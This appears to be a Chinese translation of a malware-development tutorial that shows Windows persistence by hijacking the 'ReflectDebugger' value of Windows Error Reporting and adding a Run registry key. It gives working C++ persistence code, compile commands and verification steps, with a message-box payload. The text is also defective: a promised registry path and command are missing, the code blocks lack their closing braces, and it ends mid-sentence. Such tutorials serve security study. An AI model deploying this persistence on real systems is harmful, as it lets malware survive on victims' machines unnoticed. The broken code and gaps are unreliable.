\newpage
\subsection{恶意软件开发：持久化（第 18 部分）——Windows 错误报告（简单的 C++ 示例）}

﷽

{width="80%"}

这篇文章基于我自己对一个比较有趣的恶意软件持久化技巧的研究：通过 `WerFault.exe` 实现持久化。

### WerFault.exe

在研究 Windows 错误报告（Windows Error Reporting）的行为时，我偶然发现了一个有趣的注册表路径：

这个命令以一种称为「反射调试器」（reflective debugger）的模式运行 `WerFault.exe`，这非常有意思。

例如，运行 `WerFault.exe -pr 1`，用 Procmon 观察：

{width="80%"}

{width="80%"}

再添加一个过滤器：

{width="80%"}

结果，我们就有了一个可以劫持这个值的漏洞：

{width="80%"}

我们可以把注册表值 `ReflectDebugger` 替换成我们的恶意应用程序，因为 `WerFault.exe` 不仅读取这个值，还会运行它。

### 实战示例

为了简单起见，和往常一样，我的「恶意」应用程序只是一个 meow-meow 消息框（`hack.cpp`）：

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;

```

然后，创建一个脚本，用我的「恶意」应用来创建注册表项值：

```cpp
int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)
  exe, strlen(exe));
  RegCloseKey(hkey);
  }

```

另外，我还用了一个经典的持久化技巧：

```cpp
// startup
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
  strlen(wf));
  RegCloseKey(hkey);

```

于是，最终的源代码大致是这样的（`pers.cpp`）：

```cpp
/*
pers.cpp
windows persistense via WerFault.exe
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/02/malware-pers-18.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, 
  (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkey);
  }

  // startup
  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
  strlen(wf));
  RegCloseKey(hkey);
  }
  return 0;

```

### 演示

我们来看看一切的实际运行。

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

编译我们的「恶意」应用：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

在运行一切之前，首先要检查注册表项和值：

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\" /s
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger" /s
```

运行「恶意软件」来检查正确性：

```powershell
.\hack.exe
```

{width="80%"}

另外，检查一下用于持久化逻辑的注册表项：

```powershell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

{width="80%"}

然后，运行 `pers.exe`：

```powershell
.\pers.exe
```

并再次检查 Windows 错误报告的注册表项：

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
```

{width="80%"}

如你所见，项值已被修改，我们可以通过运行下面的命令来检查正确性：

```powershell
WerFault.exe -pr 1
```

{width="80%"}

然后注销并重新登录：

{width="80%"}

几秒钟之后，我们的 meow-meow 消息框如预期地弹了出来：

{width="80%"}

你可以通过 Process Hacker 2 检查 `hack.exe` 的属性：

